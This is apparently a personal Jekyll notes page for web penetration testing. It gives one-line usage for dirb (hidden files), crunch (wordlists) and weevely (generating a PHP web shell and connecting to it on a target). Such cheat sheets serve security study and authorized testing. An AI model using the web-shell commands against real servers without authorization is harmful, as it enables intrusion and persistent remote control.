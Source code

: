 ```yaml
---
layout: post
title: 'Notes | Web Tools'
date: 2022-04-24
permalink: /notes/tools/web/
---
```


# [](#header-4)fuzzer

# [](#header-4)dirb
To get hidden files.
{% highlight plain %}
> dirb [domain]
{% endhighlight %}

# [](#header-4)crunch
To generate dictionaries:
{% highlight plain %}
> crunch <min> <max> [options]
{% endhighlight %}

# [](#header-4)weevely
To generate a shell:
{% highlight plain %}
> weevely generate [password] /home/kali/shell.php
> weevely http://ip/shell.php [password]
{% endhighlight %}

